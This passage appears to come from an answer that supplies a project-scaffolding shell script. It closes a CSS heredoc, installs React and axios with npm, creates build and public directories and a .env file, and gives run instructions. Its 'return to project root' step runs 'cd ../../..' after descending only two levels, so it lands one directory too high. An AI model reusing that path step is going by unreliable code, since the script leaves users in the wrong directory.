  padding: 10px;
  border-radius: 5px;
  overflow-y: scroll;
  height: 200px;
}
EOF

# Initialize npm and install React dependencies
cd grootkowns/client
npm init -y
npm install react react-dom
npm install --save axios

# Create the build and public directories
mkdir build public

# Create a .env file for the React app
cat <<EOF > .env
SKIP_PREFLIGHT_CHECK=true
EOF

# Return to the project root
cd ../../..

echo "Project structure and files created successfully."
```

To use this script, follow these steps:

1. Save the script as `create_files.sh`.
2. Make the script executable: `chmod +x create_files.sh`.
3. Run the script: `./create_files.sh`.

